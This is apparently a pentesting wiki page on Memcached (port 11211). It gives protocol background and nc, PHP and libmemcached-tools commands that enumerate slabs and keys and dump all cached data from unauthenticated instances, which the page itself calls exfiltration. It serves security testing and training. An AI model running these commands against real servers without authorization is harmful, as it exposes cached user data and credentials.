 # 11211 - Pentesting Memcache

{{#include ../../banners/hacktricks-training.md}}

## Protocol Information

From [wikipedia](https://en.wikipedia.org/wiki/Memcached):

> **Memcached** (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed [memory caching](https://en.wikipedia.org/wiki/Memory_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.

Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```
PORT      STATE SERVICE
11211/tcp open  unknown
```

## Enumeration

### Manual

To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Manual2

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```
